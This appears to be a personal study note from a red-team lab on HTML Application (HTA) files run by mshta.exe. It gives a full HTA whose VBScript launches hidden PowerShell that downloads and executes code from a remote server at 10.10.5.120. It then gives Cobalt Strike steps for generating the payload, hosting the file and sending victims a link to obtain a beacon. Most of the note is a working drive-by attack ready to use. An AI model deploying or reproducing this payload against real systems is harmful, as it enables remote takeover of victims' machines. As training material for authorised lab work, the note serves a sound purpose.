 ```yaml
---
creation date: September 22nd 2022
last modified date: September 22nd 2022
aliases: []
tags: #🧰
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #🧰  

# [[HTA (HTML Application)]]  
___

## Description:
An HTA is a proprietary Windows program whose source code consists of HTML and one or more scripting languages supported by Internet Explorer (VBScript and JScript).


An HTA is executed using `mshta.exe`, which is typically installed along with IE. In fact, `mshta` is dependant on IE, so if it has been uninstalled, HTAs will be unable to execute.

## Installation
To create an HTA, open **Visual Studio Code** on the **attacker-windows** VM and create a new empty file. Save the following content to `C:\Payloads\demo.hta
```
<html>
  <head>
    <title>Hello World</title>
  </head>
  <body>
    <h2>Hello World</h2>
    <p>This is an HTA...</p>
  </body>

  <script language="VBScript">
	Function Pwn()
	  Set shell = CreateObject("wscript.Shell")

	  If shell.ExpandEnvironmentStrings("%PROCESSOR_ARCHITECTURE%") = "AMD64" Then
	    shell.run "powershell.exe -nop -w hidden -c ""IEX ((new-object net.webclient).downloadstring('http://10.10.5.120/a'))"""
	  Else
        shell.run "powershell.exe -nop -w hidden -c ""IEX ((new-object net.webclient).downloadstring('http://10.10.5.120:80/b'))"""
	  End If

	End Function

    Pwn
  </script>
</html>


```

In Cobalt Strike, go to **Attacks > Web Drive-by > Scripted Web Delivery (S)** and generate a 64-bit PowerShell payload for your HTTP listener. The URI path can be anything, Type should be powershell. Copy and paste into your HTA (remember to add double quotes around command).

Now create a 32-bit payload for the else statment, add it to your HTA.

Copy/paste this line into the HTA, it should look like this:

`shell.run "powershell.exe -nop -w hidden -c ""IEX ((new-object net.webclient).downloadstring('http://10.10.5.120:80/a'))"""


## Commands


host the HTA on the Team Server so we can simply send a link for them to download and execute. Go to **Attacks > Web drive-by > Host File**. Select **demo.hta** and provide a URI to access it on. 



Run the hta on the victum machine with internet explorer installed to get a beacon.

___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: September 22nd 2022 (02:01 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
